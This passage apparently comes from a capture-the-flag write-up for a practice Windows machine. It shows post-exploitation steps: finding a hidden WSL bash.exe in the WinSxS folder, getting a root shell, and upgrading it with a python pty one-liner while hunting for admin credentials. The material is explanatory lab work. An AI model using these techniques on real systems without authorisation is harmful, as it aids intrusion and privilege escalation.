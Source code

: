 ```
07/11/2017  05:10 PM       201,254,783 install.tar.gz
07/11/2017  05:10 PM             4,840 resources.pri
06/21/2018  04:51 PM    <DIR>          temp
07/11/2017  05:10 PM           222,208 ubuntu.exe
07/11/2017  05:10 PM               809 [Content_Types].xml
               7 File(s)    201,686,103 bytes
               6 Dir(s)  33,220,313,088 bytes free

```

### Find Admin Creds - Method 1: Run bash.exe

From here, it would make sense to run bash. The shortcut is to `bash.exe`, but it points to `C:\windows\system32\bash.exe`, which doesn’t exist:

```

C:\Users\tyler\Desktop>type bash.lnk
type bash.lnk
L wV    v(      9PO :+00/C:\V1LIWindows@        ﾋLLI.h&WindowsZ1L<System32B     ﾋLL<.pkSystem32Z2LP bash.exeB   ﾋL<LU.Ybash.exeK-JںݜC:\Windows\System32\bash.exe"..\..\..\Windows\System32\bash.exeC:\Windows\System32%    
                                                                                                                                                                                                                       wN]ND
.Q`Xsecnotesx<sA㍧o'/x<sA㍧o'/= Y1SPS0CGsf"=dSystem32 (C:\Windows)1SPSXFL8C&mq/S-1-5-21-1791094074-1363918840-4199337083-10021SPS0%G`%                                                                                     
        bash.exe@
                 )
                  Application@v(        i1SPSjc(=OMC:\Windows\System32\bash.exe91SPSmDpHH@.=xhH(bP

C:\Users\tyler\Desktop>\windows\system32\bash.exe
\windows\system32\bash.exe
'\windows\system32\bash.exe' is not recognized as an internal or external command, operable program or batch file.

```

I can search for `bash.exe`, and find it:

```

C:\Users\tyler\Desktop>where /R c:\ bash.exe                       
where /R c:\ bash.exe     
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe

```

Now it’s just a matter of running it, and using `python` to get a interactive pty, just like on a Linux host:

```

C:\Users\tyler\Desktop>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
i mesg: ttyname failed: Inappropriate ioctl for device
id 
uid=0(root) gid=0(root) groups=0(root)  

python -c 'import pty;pty.spawn("/bin/bash")'
root@SECNOTES:~#

```
